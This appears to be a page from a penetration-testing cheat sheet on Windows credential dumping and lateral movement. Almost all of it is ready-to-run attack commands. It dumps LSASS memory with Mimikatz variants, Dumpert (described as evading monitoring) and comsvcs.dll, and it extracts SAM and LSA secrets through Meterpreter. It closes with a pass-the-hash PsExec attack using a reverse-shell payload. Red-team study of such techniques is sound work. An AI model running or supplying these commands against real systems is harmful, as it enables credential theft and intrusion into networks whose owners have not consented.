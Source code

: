 ### **Dump Hashes**

<pre class="language-powershell"><code class="lang-powershell">#Extracting Credentials from LSASS
#Mimikatz
#To dump credentials from LSASS on a local machine using Invoke-Mimikatz
Invoke-Mimikatz -Command "sekurlsa::ekeys"

#SafetyKatz
#SafetyKatz is a minidump-based approach combined with PELoader to execute Mimikatz
<strong>SafetyKatz.exe "sekurlsa::ekeys"
</strong><strong>
</strong>#SharpKatz
#SharpKatz is a C# implementation of certain Mimikatz functionalities:
SharpKatz.exe --Command ekeys

#Dumpert (Direct System Calls &#x26; API Unhooking)
#Dumpert evades traditional monitoring by leveraging direct system calls:
rundll32.exe C:\Dumpert\Outflank-Dumpert.dll,Dump

#Pypykatz (Python-based Mimikatz Alternative). For extracting credentials using Python
pypykatz.exe live lsa

#Comsvcs.dll for LSASS Dump. A built-in Windows DLL can be leveraged to dump LSASS memory:
tasklist /FI "IMAGENAME eq lsass.exe"
rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump &#x3C;lsass PID> C:\Users\Public\lsass.dmp full
</code></pre>

```bash
# Kiwi - Meterpreter
load kiwi
creds_all
lsa_dump_sam
lsa_dump_secrets

# Mimikatz - Meterpreter
cd C:\\
mkdir Temp
cd Temp
upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
shell

mimikatz.exe
privilege::debug
lsadump::sam
lsadump::secrets
sekurlsa::logonPasswords
```

### **Lateral Movement**

**Pass-The-Hash (PTH)**

```powershell
# PASS THE HASH - PSExec
hashdump
exit
search psexec
use exploit/windows/smb/psexec
set payload windows/x64/meterpreter/reverse_tcp
set SMBUser Administrator
set SMBPass <ADMINISTRATOR_LM:NTLM_HASH>
```
